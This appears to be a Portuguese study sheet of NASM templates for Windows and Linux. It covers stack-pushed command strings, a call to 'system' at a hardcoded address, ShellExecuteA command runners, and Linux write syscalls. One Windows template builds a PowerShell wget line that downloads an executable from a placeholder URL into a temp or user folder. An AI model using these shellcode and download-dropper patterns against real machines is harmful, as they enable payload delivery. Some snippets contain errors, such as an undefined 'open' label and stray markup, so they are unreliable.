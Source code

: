 # Windows

## Instruções
Os comandos devem ser enviado a stack pelo push de forma invertida e com 00 no final. 
Exemplo: cmd.exe → 00exe.cmd, em hex 63 6D 64 2E 65 78 65 → 00657865 2E646D63

---
Sempre verificar os parâmetros da função e enviar ao contrário os argumentos

---
Como compilar: 
``nasm -f win32 <file.asm>``
``golink /entry _main <file.obj> <dll> ``

---
Para pesquisar:
Forma básica: ``arwin <dll name> <function name>``

---
## Exemplos
### Cmd
```nasm
***extern system***
global _main

section .text ;Define a sessão de código
_main: ;Define a main

	push 0x00657865 ;00exe
	push 0x2e646d63 ;.cmd
	push esp
	pop eax
	push eax
	mov ebx, 0x76453dc0 ;Chama o system
	call ebx
```
---
### Caixa de texto
```nasm
extern _MessageBoxA
global _main

section .data
	msg db "<msg>",0
	title db "<title>",0

section .text
_main:
	push 0
	push title
	push msg
	push 0
	call _MessageBoxA
```
---
### Execução de comandos no cmd
```nasm
extern _ShellExecuteA
global _main

section .data
	type db "open",0
	cmd db "cmd",0
	par db "/c <command>",0

section .text
_main:
	push 0
	push 0
	push par
	push cmd
	push open
	push 0
	call _ShellExecuteA
```
---
### Download por cmd
```nasm
extern _ShellExecuteA
global _main

section .data
	type db "open",0
	cmd db "cmd",0
	par db "/c  powershell -Command wget '<url.exe>' -OutFile <dir> (C:windows\\temp\\<file.exe> ., C:Users\\<user>\\<file.exe>",0

section .text
_main:
	push 0
	push 0
	push par
	push cmd
	push open
	push 0
	call _ShellExecuteA
```
---
# Linux
## Instruções

Como compilar em x86: 
``nasm -f elf32 <file.asm> ld --entry main <file.o> -m elf_i386 -o <output file>``

---
Como compilar em x64: 
``nasm -f elf64 <file.asm> ld --entry _main <file.o> -o <output file>``

---
## Sites Úteis
[https://syscalls.w3challs.com/?arch=x86](https://syscalls.w3challs.com/?arch=x86)

[https://syscalls.w3challs.com/?arch=x86_64](https://syscalls.w3challs.com/?arch=x86_64)

---
## Exemplos
### Texto no bash x86
```nasm
global _main

section  .data
	<text>: db '<text>'0xa

section .text
_main:
	mov eax, 4
	mov ebx, 1; STDIN0, STDOUT1, STDERR2
	mov ecx, <text>
	mov edx, <size>
	int 0x80

	mov eax, 1
	mov ebx, 0
int 0x80
```
---
### Texto no bash x64
```nasm
global _main

section  .data
	<text>: db '<text>'0xa

section .text
_main:
	mov rax, 1
	mov rdi, 1; STDIN0, STDOUT1, STDERR2
	mov rsi, <text>
	mov rdx, <size>
	syscall

	mov rax, 60
	mov rdi, 0
	syscall
```
